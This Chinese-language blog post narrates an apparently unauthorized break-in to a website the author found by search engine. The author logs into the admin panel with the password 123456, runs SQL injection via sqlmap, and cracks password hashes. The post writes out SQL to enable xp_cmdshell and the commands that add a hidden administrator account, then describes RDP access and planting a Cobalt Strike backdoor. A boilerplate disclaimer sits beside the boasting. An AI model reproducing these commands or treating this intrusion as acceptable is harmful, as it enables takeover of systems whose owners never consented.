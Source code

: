 ```yaml
---
title: 从网页到远程桌面的渗透
tags:
- 渗透
- 日记
- SQL注入
categories:
- [渗透]
description: 实战一个相对完整的渗透过程
keywords: 渗透, 弱口令, 提权, sql注入
cover: https://img.dreamfall.cn/cover/16.webp
date: 2023-05-25 21:33:00
updated: 2023-05-25 21:53:00
---
```


{% note red 'fas fa-fan' flat%}
以下内容属于渗透复现，未经授权的渗透测试是不允许的
{% endnote %}
{% note red 'fas fa-fan' flat%}
利用本文中的技术造成的后果与本人无关，倡导维护网络安全人人有责，共同维护网络文明和谐。
{% endnote %}

## 引子

5.20闲着无聊，那就来挖洞吧，打穿一台机器的体验可比去外面玩成就感大多了

## 过程

### 登录后台

通过搜索引擎搜索到了某个网站的后台，首先使用弱口令，（123456），结果直接进去了
![](https://img.dreamfall.cn/post/shentou/1.webp)

### 发现漏洞

通常，网站的后台会存在大量的漏洞，如文件上传，SQL注入等，我使用扫描器发现了该网站后台存在SQL报错注入。

![](https://img.dreamfall.cn/post/shentou/2.webp)

### SQL注入

标记扫描器扫出的SQL注入点后，直接进sqlmap跑，成功获得了数据库列表

![](https://img.dreamfall.cn/post/shentou/3.webp)
![](https://img.dreamfall.cn/post/shentou/4.webp)

查看当前用户权限，发现是dba（数据库管理员）

![](https://img.dreamfall.cn/post/shentou/5.webp)

查看数据库类型是SQL server，mssql的提权比mysql的方便，因为能直接调用xp_cmd模块直接执行命令

### 尝试执行命令

使用os-shell执行命令失败
![](https://img.dreamfall.cn/post/shentou/6.webp)
### 破解密码
尝试读取数据库用户密码哈希，通过在线查询哈希
![](https://img.dreamfall.cn/post/shentou/7.webp)

emmm
![](https://img.dreamfall.cn/post/shentou/8.webp)


成功获取到明文密码
![](https://img.dreamfall.cn/post/shentou/9.webp)

### 扫描端口
对目标服务器进行全端口扫描，发现目标机器开放了SQL server端口1433

![](https://img.dreamfall.cn/post/shentou/10.webp)

### 连接数据库

使用数据库连接工具成功连接
![](https://img.dreamfall.cn/post/shentou/11.webp)

### 查看当前用户权限

执行sql语句：
```sql
WITH CTE AS (
    SELECT
        u.name AS 用户名,
        u.is_disabled AS 是否禁用,
        g.name AS 服务器角色,
        '√' AS 'flag' 
    FROM
        sys.server_principals u
        INNER JOIN sys.server_role_members m ON u.principal_id = m.member_principal_id
        INNER JOIN sys.server_principals g ON g.principal_id = m.role_principal_id 
    ) SELECT
    * 
FROM
    CTE PIVOT ( MAX ( flag ) FOR 服务器角色 IN ( [public], [sysadmin], [securityadmin], [serveradmin], [setupadmin], [processadmin], [diskadmin], [dbcreator], [bulkadmin] ) ) AS T;
```

发现是system管理员权限
![](https://img.dreamfall.cn/post/shentou/12.webp)

### 执行命令

直接执行sql语句，打开xp_cmd

```sql
use master;
exec sp_configure 'show advanced options',1;
reconfigure;
exec sp_configure 'xp_cmdshell',1;
reconfigure;
```

![](https://img.dreamfall.cn/post/shentou/14.webp)
查看当前用户权限

```sql
use master;
exec master..xp_cmdshell "whoami";
```

![](https://img.dreamfall.cn/post/shentou/15.webp)
发现是system权限，直接创建新的管理员账户

### 创建管理员

```sql
use master;
exec master..xp_cmdshell "net user test12 dreamfall.cn1 /add";
```
![](https://img.dreamfall.cn/post/shentou/16.webp)
```sql
net localgroup administrators test12 /add
```
![](https://img.dreamfall.cn/post/shentou/17.webp)

### 远程桌面

通过远程桌面成功登录，获取目标主机的全部权限
![](https://img.dreamfall.cn/post/shentou/18.webp)

### 上线CS

在服务器中留下后门，以便随时随地访问此站

## 总结

**千万不要为了方便使用简单密码**

流程总结：弱口令进后台，后台sql注入，获取到数据库用户哈希，弱密码哈希破解，发现开数据库端口，直接连接，发现是dba权限，直接调用xp_cmd执行命令创建管理员账户，登录远程桌面